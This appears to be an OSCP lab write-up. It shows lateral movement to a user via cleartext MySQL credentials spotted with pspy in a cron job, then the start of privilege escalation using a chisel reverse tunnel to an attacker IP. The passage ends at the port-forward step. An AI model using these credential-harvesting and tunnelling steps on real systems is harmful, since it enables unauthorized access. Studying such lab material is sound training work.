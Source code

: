 ## Lateral Movement to Jack

- **OSCP Checklist**
    - [ ]  Situational awareness
    - [ ]  Exposed Confidential Information
    - [x]  Password Authentication Abuse
    - [ ]  Hunting Sensitive Information
    - [ ]  Sudo
    - [x]  SUID/SGID
    - [x]  Capabilities
    - [ ]  Cron Jobs Abuse
    - [ ]  Kernel Exploits
    - [ ]  **Check if sudoers file is writable**
    - [ ]  Try credentials you already obtained for various services admin roles
    

Running `pspy64` to see running processes I immediately noticed `mysqldump` usage by jack and cleartext credentials:

```bash
timeout 3m ./psp64
```

It looks like a cronjob running in every 2 minutes:

![image.png](image%209.png)

```bash
/bin/sh -c mysqldump -u jack -p'j4cKF0rg3@445' soplanning >> /opt/backup/soplanning_dump.log 2>&1 

mysqldump -u jack -pj4cKF0rg3@445 soplanning
```

## Privilege Escalation

Checking for `sudo` I see:

![image.png](image%2010.png)

```bash
#!/bin/bash
cd /opt/password_change_app 
/usr/local/bin/flask run --host 127.0.0.1 --port 9000 --no-debug
```

Even though `cd` is not in absolute path we cannot abuse it by `PATH Hijacking` because most likely `/etc/sudoers` file uses `secure_path`.

I got interested and forwarded port 9000 making it possible to view from attacker machine using `chisel`:

```bash
./chisel_1.10.1_linux_amd64 server --reverse --port 3306 -v
./chisel_1.10.1_linux_amd64 client 192.168.45.159:3306 R:9000:127.0.0.1:9000
```
